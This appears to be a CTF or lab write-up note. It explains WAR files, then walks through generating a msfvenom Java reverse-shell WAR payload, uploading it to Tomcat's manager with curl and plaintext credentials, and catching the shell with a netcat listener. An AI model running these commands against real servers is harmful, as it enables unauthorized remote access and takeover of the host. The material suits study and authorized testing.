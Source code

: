 ## What is a `.war` file?

A `.war` file* stands for **Web Application Archive** — it’s the Java equivalent of a **.zip** or **.jar** file, but used specifically for **deploying web apps on servers like Apache Tomcat**.
[]()
- It contains Java classes, configuration files, and web resources (like HTML, JSP, etc.).
    
- Web servers such as **Apache Tomcat**, **JBoss**, or **GlassFish** can **deploy** `.war` files directly.
    
- When deployed, it becomes an accessible web application under a URL path like: `http://<server>:8080/shell/`


## msfvenom

#Attacking_machine 
1. Generated a WAR payload with `msfvenom`.
```
msfvenom -p java/shell_reverse_tcp LHOST=<ATTACKING MACHINE IP> LPORT=443 -f war > shell.war
```

| Part                        | Explanation                                                        |
| --------------------------- | ------------------------------------------------------------------ |
| `msfvenom`                  | The payload generator (part of Metasploit).                        |
| `-p java/shell_reverse_tcp` | Payload type — a **Java reverse shell** that connects back to you. |
| `LHOST=MACHINE IP           | Your local IP (where the reverse connection will come to).         |
| `LPORT=443`                 | The port on your machine to receive the shell.                     |
| `-f war`                    | Output format = **WAR web app file** (deployable on Tomcat).       |
| `> shell.war`               | Save the generated payload as `shell.war`.                         |

2. Upload the file `shell.war` to the Tomcat Server.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' -T shell.war 'http://<MACHINE IP>:8080/manager/text/deploy?path=/shell.war'
```

![[Screenshot_2025-10-16_05-26-25.png]]

3. Check the file has been uploaded.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/manager/text/list
```

![[Screenshot_2025-10-16_05-31-50.png]]

4. Open a netcat listener on the attacking machine.
```
nc -lnvp 443
```

5. Deploy the file.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/shell.war
```

## What happens when it’s deployed

1. Deploy the WAR file as a web app.
    
2. Launch the payload (a Java servlet) when accessed.
    
3. The payload will **connect back to your LHOST:443** and open a **reverse shell**.
    

That means you’d get a remote shell on the netcat listener. .

![[Screenshot_2025-10-16_05-47-40.png]]

**Next step:** [[linPEAS]]